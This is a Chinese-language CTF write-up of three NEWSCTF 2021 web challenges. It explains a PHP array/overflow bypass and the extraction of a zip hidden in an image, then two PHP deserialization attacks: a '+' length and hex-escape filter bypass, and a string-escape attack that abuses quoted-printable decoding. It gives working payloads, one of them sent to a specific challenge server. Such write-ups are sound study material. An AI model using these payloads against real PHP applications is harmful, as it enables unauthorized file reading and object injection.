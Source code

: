 # NEWSCTF 2021 Web



## easy_web

我好烦怎么还带misc。。。。出题人给我爬。。。

简单的代码审计，就不细说了。最后的数组那个，蓝帽刚考过：

https://blog.csdn.net/qq_45951598/article/details/110677273?utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2~aggregatepage~first_rank_v2~rank_aggregation-6-110677273.pc_agg_rank_aggregation&utm_term=php+%E6%95%B0%E7%BB%84%E6%BA%A2%E5%87%BA&spm=1000.2123.3001.4430

payload：

```
webp=123456&a[]=1&b[]=2&c=9223372036854775806
```

得到了密码。提示图片，把图片下载下来，binwalk看一下发现还有个压缩包，提取出来：

```shell
feng@feng:~/桌面$ binwalk backImg.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1054 x 745, 8-bit/color RGBA, non-interlaced
1522188       0x173A0C        Zip archive data, encrypted at least v2.0 to extract, compressed size: 43, uncompressed size: 36, name: trueflag.txt
1522367       0x173ABF        End of Zip archive, footer length: 22

feng@feng:~/桌面$ foremost backImg.jpg 
Processing: backImg.jpg
|foundat=trueflag.txtOYҖ���y�G�ë꭮a04]�Hg��@�E\t��:O��,PK
*|
feng@feng:~/桌面$ 
```

然后拿得到的压缩密码解压，打开文件即可得到flag：

```
newsctf{this_1s_veryveryveryeasyweb}
```



## weblog

考察的是反序列化，这题我卡了有一段时间，主要是我一直在拿本地打，我本地是php7.3.4，题目环境是5.5.21，所以题目能打通但是我本地一直打不通就一直有些想偏了。

反序列化的构造思路还是比较简单的，就是读`flag.php`：

```php
<?php
class A {
    public $weblogfile="flag.php";
    function __wakeup(){
        $obj = new B($this->weblogfile);
    }
}
echo serialize(new A());
```

然后就是想办法绕过对于flag的过滤。他这里写了一个`is_serialized`函数，我觉得主要的还是这里：

```php
    $r = preg_match_all('/:\d*?:"/',$data,$m,PREG_OFFSET_CAPTURE);
    if(!empty($r)) {
        foreach($m[0] as $v){
            $a = intval($v[1])+strlen($v[0])+intval(substr($v[0],1));
            if($data[$a] !== '"')
                return false;
        }
    }
```

取类似`:1:"`的，然后对于这个长度看是不是`"`。比如我们这里的

`O:1:"A":1:{s:10:"weblogfile";s:8:"flag.php";}`

正则匹配到`:8:"`，然后判断8个字符之后的是不是双引号，也就是说对于这个长度要正确。

因此很容易想到加正号来绕过正则，加了然后就是flag的过滤了：

```php
$log = str_replace('flag','',$log);
```

16进制绕过即可。最终payload：

```php
?log=O:1:"A":1:{s:10:"weblogfile";S:%2b8:"\66lag.php";}
```



## weblogin

同样是反序列化的代码审计，主要问题在于`convert.quoted-printable-decode`，正好前天昨天都在看laravel的那个rce，对这个过滤器很熟。出题人写的`enc`函数：

```php
function enc($str){
    $_str = '';
    for($i=0;$i<strlen($str);$i++){
        if ($str[$i] !== '='){
            $_str = $_str.'='.dechex(ord($str[$i]));
        }else{
            $_str = $_str.$str[$i].$str[$i+1].$str[$i+2];
            $i = $i+2;
        }
    }
    return $_str;
}
```

会在这样的地方进行enc：

```php
file_put_contents($file, enc(serialize($p)));
```

看一下这个`enc`函数就会发现，它不是取每一位进行`quoted-printable-encode`，如果遇到了本来就有等于号的，不会把这一位进行加密，而是直接保留这个等于号和他的接下来两个字母。也就是说，对于本来的已经被`quoted-printable-encode`的，就不会再处理。

这里就存在了一个问题，也就是说写入的内容是我们可控的（确实是这样）。然后代码中有这样的操作：

```php
$p = unserialize(filter(file_get_contents('php://filter/read=convert.quoted-printable-decode/resource='.$file)));
```

取出里面的然后再反序列化得到对象。这个反序列化的对象能不能控制呢？比如它就是`Action`类的一个对象，如果它的`$datafile`可控，就可以考虑得到`$flaag = 'flag'.md5($_SERVER['REMOTE_ADDR']).'data'`了。



至于为什么说对象可控，把整个代码的逻辑和上述的思路想一下就会感觉到，比如我用的是register功能，传入的username本身就包含类似`=31`这样的字符，序列化得到的那个字符串，里面的长度算的肯定是`=31`的长度，但是经过`$p = unserialize(filter(file_get_contents('php://filter/read=convert.quoted-printable-decode/resource='.$file)));`反序列化处理得到的对象，就会出现问题，因为这里处理得到的会把`=31`进行解密得到字母`1`。

举个例子，比如`username`传的是`=31`，这样序列化得到的这部分就是：

```php
s:3:"=31"
```

然后进行写入：

```php
file_put_contents($file,enc(serialize($p)));
```

写入的是

```php
=3a=33=3a=22=31=22
```

因为`enc`函数的问题，并没有对`=31`再挨个加密，而是保留了。之后再加密，反序列化，得到的会是这样：

```php
s:3:"1"
```

存在一个反序列化字符串逃逸的问题。因此想办法利用`enc`函数的问题，来反序列化字符串逃逸即可。

正常的`register`，得到的对象是这样：

```php
O:6:"Action":5:{s:4:"data";a:1:{i:12131;s:1:"1";}s:8:"username";s:0:"";s:8:"password";s:0:"";s:8:"datafile";s:0:"";s:3:"act";s:0:"";}
```



随便试试字符串逃逸：

```php
post:username==31=31=31&password==31=31=31

o:6:"Action":5:{s:4:"data";a:2:{i:12131;s:1:"1";s:9:"111";s:9:"111";}s:8:"username";s:0:"";s:8:"password";s:0:"";s:8:"datafile";s:0:"";s:3:"act";s:0:"";}
```

可以发现后面就会有数量上的问题：

```php
s:9:"111";s:9:"111";}s:8:"username";s:0:"";s:8:"password";s:0:"";s:8:"datafile";s:0:"";s:3:"act";s:0:"";}
```

可以想办法进行字符串的逃逸，进行闭合来实现反序列化得到的对象的控制。

直接给出我的payload了，因此思路知道了，接下来的字符逃逸就很简单了：

```php
http://103.45.131.26:22221/index.php/register

username==31=31=31=31=31&password==31=22=3b=73=3a=30=3a=22=22=3b=7d=73=3a=38=3a=22=64=61=74=61=66=69=6c=65=22=3b=73=3a=33=36=3a=22=66=6c=61=67=63=63=38=64=61=65=35=34=37=64=30=37=66=61=64=34=39=35=66=37=37=63=64=63=66=64=33=39=64=63=34=38=22=3b=73=3a=33=3a=22=61=63=74=22=3b=73=3a=38=3a=22=72=65=67=69=73=74=65=72=22=3b=73=3a=38=3a=22=75=73=65=72=6e=61=6d=65=22=3b=73=3a=30=3a=22=22=3b=73=3a=38=3a=22=70=61=73=73=77=6f=72=64=22=3b=73=3a=30=3a=22=22=3b=7d
```

然后再访问一次`/register`即可，再访问`/flag`得到flag：

```
flag{hahaha_newsctfunserialize_is_so_esay!}
```









